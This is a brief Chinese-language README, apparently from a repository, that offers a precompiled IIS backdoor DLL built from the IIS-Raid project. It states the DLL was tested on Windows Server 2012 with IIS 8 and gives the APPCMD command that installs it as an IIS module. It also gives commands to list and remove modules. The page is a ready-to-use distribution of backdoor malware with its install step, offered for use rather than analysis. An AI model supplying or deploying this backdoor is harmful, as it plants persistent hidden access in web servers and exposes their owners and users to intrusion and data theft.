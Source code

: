 # README


已经编译好了的dll

####  

源码：https://github.com/0x09AL/IIS-Raid

  



####  

直接下载 IIS-backdoor.dll  

Windows server2012 IIS 8 测试

  


## 使用

### 添加模块
PS C:\Users\Administrator> C:\Windows\system32\inetsrv\APPCMD.EXE install module /name:Module  /image:"c:\IIS-Backdoor.dll" /add:true

## 另外一些模块有关的命令

### 看一下已经安装的模块
PS C:\Users\Administrator> C:\Windows\system32\inetsrv\APPCMD.EXE list modules

### 删除已经安装的模块

PS C:\Users\Administrator> C:\Windows\system32\inetsrv\APPCMD.EXE uninstall modules Module

